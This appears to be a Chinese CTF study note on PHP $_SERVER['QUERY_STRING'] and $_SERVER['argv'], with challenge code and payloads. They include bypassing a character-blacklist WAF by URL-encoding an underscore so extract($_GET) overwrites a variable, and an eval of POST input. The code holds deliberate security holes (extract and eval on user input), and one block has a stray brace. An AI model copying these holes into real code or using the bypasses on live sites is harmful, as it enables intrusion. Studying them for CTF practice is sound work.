 
^

## **$_SERVER['QUERY_STRING'];**
对于GET传参：?a=b&c=d
$_SERVER['QUERY_STRING']; //  a=b&c=d 获取的是服务端还没url解码之前的字符串
可以url编码绕过
```
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}

Payload：
对_进行url编码绕过waf，extract获取参数会自动解码。
?ctf%5fshow=ilove36d

Payload：
?ctf show=ilove36d
空格会获取参数时转成_
```

## **$_SERVER['argv']**
```
对于GET传参：?a=b+fl0g=flag_give_me
$a=$_SERVER['argv']; //为数组 

$_SERVER['argV'][0]为 a=b，同$_SERVER['QUERY_STRING']; 
$_SERVER['argV'][1]为 fl0g=flag_give_me
```
```
<?php
 
$a=$_SERVER['argv'];
$c=$_POST['fun'];
eval("$c".";");  

if(!isset($_GET['fl0g'])){
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```